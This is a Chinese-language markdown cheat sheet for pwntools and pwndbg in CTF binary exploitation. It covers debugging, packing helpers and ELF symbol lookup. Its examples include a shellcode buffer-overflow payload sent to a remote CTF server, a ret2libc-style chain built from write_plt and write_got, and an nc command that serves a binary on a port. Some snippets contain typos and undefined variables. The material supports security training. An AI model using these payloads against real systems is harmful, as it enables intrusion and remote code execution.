 pwndbg


## pwntools

[pwntools 命令行工具](https://zero-mk.github.io/2019/01/01/pwntools-Command%20Line%20Tools/)
[Link](https://www.jianshu.com/p/6e528b33e37a)
[Link](https://docs.pwntools.com/en/stable/timeout.html)

```py
# timeout
context.timeout = 30
```

### 本地启动

nc -vc ./fmt -kl 3333

然后其他机器就可以 nc ip port 连接了

### 怎样调试

方法 1

```python
context(arch='amd64', os='linux', log_level='debug')
sh = process('./pwn')
# gdb.attach(sh, 'b *0x1234')
gdb.attach(sh)
```

方法 2

```python
sh = process('./pwn')
raw_input('debug')
这时看pid，比如是 6533, 新建终端，
$gdb
$attach 6533
```

### 指令介绍

p32、p64 是 64/32 位代码 打包为二进制，u32、u64 是解包为二进制

**flat 模块能将 pattern 字符串和地址结合并且转为字节模式**

```python
payload = flat(cyclic(32), 0x804a060)
io.sendlijneafter(':', flat['a'*0x8c, e.plt['system'], 0, 0x804a024, 0, 0])
```

symbols

    ELF('./level3').symbols['main']
    ELF('./level3').sym['main']

gdb.attach(sh) # gdb 附加到调试

### 示例

```python
from pwn import *
context(log_level = 'debug', arch = 'i386', os = 'linux') # 能显示调试信息
#io = process('./level1')
io = remote('pwn2.jarvisoj.com', 9877) # 远程连接
text = io.recvline()[14: -2] # 获取返回值
# recvline(keepends=True) : 接收一行，keepends为是否保留行尾的\n
shellcode = asm(shellcraft.sh()) # pwntools生成的 sh 的shellcode
p64(0x400000) # 地址转 64 位二进制
p32(0x400000) # 地址转 32 位二进制
payload = shellcode.decode('latin') + '\x90' * (0x88 + 0x4 - len(shellcode)) + p32(buf_addr).decode('latin')
io.send(payload)
io.interactive()
io.close()
```

从 write 返回 main

```python
#char[88] ebp  write函数地址  write函数返回地址(返回到main函数)  write函数参数一(1)  write函数参数二(write_got地址)  write函数参数三(写4字节)
payload = flat('A'*0x88, p32(0xdeadbeef), p32(write_plt), p32(main_addr), p32(1), p32(write_got), p32(0xdeadbeef))
# payload = flat('a'*0x88, p64(syscall), p64(syscall)) # buuctf这题需要2个，不明白。好像是栈没对齐的原因
```

#### 输入字符

```python
io.sendlineafter('name', payload)

io.recvuntil("your name")
io.sendline("/bin/sh")

print(io.recvall())
```

#### 汇编转二进制、数字、字符转换等

```python
# python3
from pwn import *
print(asm('XCHG EAX,ESP\nRET\nMOV ECX,[EAX]\nMOV [EDX],ECX\nPOP EBX\nRET'.lower()).hex())
```

p32 - Packs an 32-bit integer

```python
>>> p32(0x8040000)
b'\x00\x00\x04\x08'
```

u32 使用 - Unpacks an 64-bit integer

```python
>>> u32('\x00\x00\x04\x08')
134479872
>>> hex(u32('\x00\x00\x04\x08'))
'0x8040000'
```

#### runshellcode

```python
from pwn import *
run_shellcode(a.encode())
```

### 相关知识

通过 ldd 查找 libc 共享库， 这里 python 需要用到 c 语言的标准动态库, srand 用到 libc.so.6

```sh
kali@kali:/mnt/hgfs/vmware$ ldd guess_num
        linux-vdso.so.1 (0x00007ffec67fa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007faeab4e3000)
        /lib64/ld-linux-x86-64.so.2 (0x00007faeab8c1000)
```

# FAQ

1. pwndbg Debugger always exiting
[Link](https://github.com/Gallopsled/pwntools/issues/1677) [Solution](https://github.com/Gallopsled/pwntools/commit/7ececc6bce24ccf3fe9c19c12b225e5e85d56afc)

# Article

[[分享] pwndbg+tmux真乃天作之合 ](https://bbs.kanxue.com/thread-276203.htm)
[baidu:IDA pwntools](https://www.baidu.com/s?wd=pwntools+ida+%E8%B0%83%E8%AF%95)
[IDA配合pwntool调试环境](https://zhuanlan.zhihu.com/p/347107006)
